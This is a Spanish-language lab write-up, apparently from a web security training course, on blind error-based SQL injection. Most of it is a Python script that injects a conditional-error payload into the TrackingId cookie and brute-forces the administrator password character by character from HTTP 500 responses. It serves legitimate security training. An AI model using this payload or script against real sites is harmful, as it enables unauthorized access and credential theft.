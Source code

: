 En esta clase continuamos con la explotación de la inyección SQL ciega basada en errores, utilizando las técnicas que vimos anteriormente para completar el proceso de extracción del password del administrador.

Aplicamos lo aprendido para automatizar la obtención de cada carácter de la contraseña utilizando Burp Intruder, apoyándonos en respuestas con error (código 500) para saber si el carácter probado es correcto. Se recorre así toda la cadena de forma sistemática.

Es una continuación directa de la clase anterior, donde verás en práctica cómo automatizar este tipo de ataque para obtener credenciales completas en entornos reales.

Solucion
Se pueden hacer los mismos pasos que la anterior laboratorio pero en este caso vamos a hacer un script para que automatize todo lo anterior
Esto en Burp suite obiamente ya con la intervencion de foxy proxy y ya haciendo los pasos de order by
![Pasted image 20250703143528.png](imagenes/Pasted image 20250703143528.png)
codigo
![Pasted image 20250703143230.png](imagenes/Pasted image 20250703143230.png)
![Pasted image 20250703143151.png](imagenes/Pasted image 20250703143151.png)
lo llamaremos (Solo tenemos que modificar el trackingid, session y la url dando ctrl+shift+c nos vamos a storage o almacenamiento y ahi lo veremos todo)sqli.py
#!/usr/bin/env python3 

from pwn import *
from termcolor import colored 
import requests
import signal 
import sys
import string
import time

def def_handler(sig, frame):
    p1.failure("Ataque de fuerza bruta detenido") 
    print(colored(f"\n[!] saliendo...\n", 'red')) 
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

characters = string.ascii_lowercase + string.digits 
p1 = log.progress("SQLI")

def makeSQLI():
    p1.status("Iniciando ataque de fuerza bruta")
    time.sleep(2)

    password = ""
    p2 = log.progress("Password")

    for position in range(1, 21):
        for character in characters:
            cookies = {
                "TrackingId": f"opTM41c5M3tdYiBB'||(select case when substr(password,{position},1)='{character}' then to_char(1/0) else'' end from users where username='administrator') ||'",
                "session": "eeBj0F3YK4uowytrMt8WtFXH7U4GcRVo"
            }

            p1.status(cookies["TrackingId"])

            r = requests.get("https://0aed008604509bf28095581100aa00eb.web-security-academy.net", cookies=cookies)

            if r.status_code == 500:
                password += character 
                p2.status(password)
                break

    p1.success("Ataque completado")
    print(colored(f"[+] Contraseña encontrada: {password}", 'green'))

if __name__ == '__main__':
    makeSQLI()

resultado
![Pasted image 20250703152727.png](imagenes/Pasted image 20250703152727.png)
![Pasted image 20250703152658.png](imagenes/Pasted image 20250703152658.png)
